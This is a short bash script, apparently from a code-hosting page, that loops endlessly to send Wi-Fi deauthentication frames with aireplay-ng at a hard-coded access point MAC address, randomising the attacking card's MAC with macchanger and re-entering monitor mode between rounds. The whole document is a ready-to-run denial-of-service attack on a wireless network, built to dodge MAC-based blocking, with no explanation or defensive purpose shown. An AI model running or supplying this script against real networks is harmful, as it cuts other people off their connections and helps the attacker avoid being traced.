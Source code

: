 #! /bin/bash

while true
do

	aireplay-ng -0 5 -a 90:F6:52:C1:BB:18 wlan0

	ifconfig wlan0 down
	macchanger -r wlan0 | grep "New MAC"

	iwconfig wlan0 mode monitor
	ifconfig wlan0 up
	iwconfig wlan0 | grep Mode

	sleep 3
	echo waiting!!!

done
